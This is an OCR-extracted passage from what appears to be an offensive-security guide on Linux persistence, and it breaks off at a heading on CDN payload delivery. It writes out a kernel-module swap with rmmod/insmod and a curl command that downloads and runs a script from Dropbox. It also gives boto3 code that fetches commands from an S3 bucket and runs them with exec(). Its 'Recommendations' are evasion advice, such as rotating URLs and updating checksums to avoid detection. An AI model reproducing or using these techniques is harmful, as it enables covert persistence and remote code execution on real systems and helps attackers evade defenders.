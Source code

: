     bash

        rmmod legitimate_module
        insmod /lib/modules/$(uname -r)/extra/modified_legitimate_module.ko

        Recommendations:
            Test modified modules in a controlled environment before deploying.
            Regularly update module checksums to avoid integrity verification issues.

F. Using Cloud Services for Persistence

Similar to Windows, attackers can leverage cloud services for persistence on Linux systems. These methods provide external storage and command execution capabilities, making it difficult for defenders to track and mitigate.
Techniques and Tools:

    Dropbox-Based Persistence:
        Description: Use Dropbox to host malicious scripts and configuration files. These can be downloaded and executed by a persistent cron job or startup script.
        Tools: Dropbox CLI, custom scripts using Dropbox API.
        Command Examples:

        bash

    curl -o /tmp/malicious_script.sh https://www.dropbox.com/s/malicious_script.sh?dl=1
    chmod +x /tmp/malicious_script.sh
    /tmp/malicious_script.sh

    Recommendations:
        Use private Dropbox links to restrict access to the hosted files.
        Regularly update the scripts and URLs to avoid detection.

Amazon S3 and AWS Lambda:

    Description: Use AWS S3 buckets to store scripts or payloads and AWS Lambda functions to trigger periodic execution.
    Tools: AWS CLI, Python with boto3, Lambda function triggers.
    Command Examples (Check for commands from S3 bucket):

    python

    import boto3

    s3 = boto3.client('s3')
    bucket_name = 'malicious-bucket'
    file_key = 'linux_commands.txt'

    def fetch_commands():
        response = s3.get_object(Bucket=bucket_name, Key=file_key)
        commands = response['Body'].read().decode('utf-8')
        exec(commands)

    fetch_commands()

    Recommendations:
        Encrypt sensitive data stored in S3.
        Use IAM roles with minimal permissions to reduce exposure.

Leveraging CDNs for Payload Delivery:
